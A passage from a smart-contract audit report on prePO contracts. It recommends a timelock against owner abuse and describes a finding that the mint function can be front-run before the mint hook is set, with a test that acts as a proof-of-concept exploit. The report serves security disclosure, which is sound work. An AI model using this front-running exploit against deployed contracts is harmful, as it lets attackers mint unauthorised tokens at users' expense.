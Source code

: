 #### Impact
Hacked owner or malicious owner can immediately steal all assets or lock them forever.

#### Recommended Mitigation Steps
All critical functions (at least in apps/smart-contracts/core/contracts/Collateral.sol) should implement a timelock, to give users at least enough time to withdraw their tokens before some malicious action becomes possible and their tokens are drained from the attacker.


### <a id="M02"></a> M-02 Unallowed minting of Short and Long tokens
The documentation states that minting of the Short and Long tokens should only be done by the governance.

```solidity
File: apps/smart-contracts/core/contracts/interfaces/IPrePOMarket.sol
73:    * Minting will only be done by the team, and thus relies on the `_mintHook`
74:    * to enforce access controls. This is also why there is no fee for `mint()`
75:    * as opposed to `redeem()`.
```

The problem is, that as long as the **_mintHook** is not set via **setMintHook**, everyone can use the mint function and mint short and long tokens.
At the moment the **_mintHook** is not set in the contructor of PrePOMarket and so the transaction that will set the **_mintHook** can be front run to mint short and long tokens for the attacker.

#### Proof of Concept
https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L68
https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L109

This test shows how a attacker could frontrun the **setMintHook** function

```node
  describe('# mint front run attack', () => {
    let mintHook: FakeContract<Contract>
    beforeEach(async () => {
      prePOMarket = await prePOMarketAttachFixture(await createMarket(defaultParams))
    })
    it('user can frontrun the set setMintHook to mint long and short tokens', async () => {
      
      mintHook = await fakeMintHookFixture()
      await collateralToken.connect(deployer).transfer(user.address, TEST_MINT_AMOUNT.mul(2))
      await collateralToken.connect(user).approve(prePOMarket.address, TEST_MINT_AMOUNT.mul(2))

      // we expect the mintHook to always revert
      mintHook.hook.reverts()

      // attacker frontruns the setMintHook, even we expect the mintHook to revert, we will mint
      await prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)

      // governance sets the mintHook
      await prePOMarket.connect(treasury).setMintHook(mintHook.address)

      // as we expect minthook to revert if not called from treasury, it will revert now
      mintHook.hook.reverts()
      await expect(prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)).to.be.reverted

      // we should now have long and short tokens in the attacker account
      const longToken = await LongShortTokenAttachFixture(await prePOMarket.getLongToken())
      const shortToken = await LongShortTokenAttachFixture(await prePOMarket.getShortToken())
      expect(await longToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
      expect(await shortToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
    })
  })
```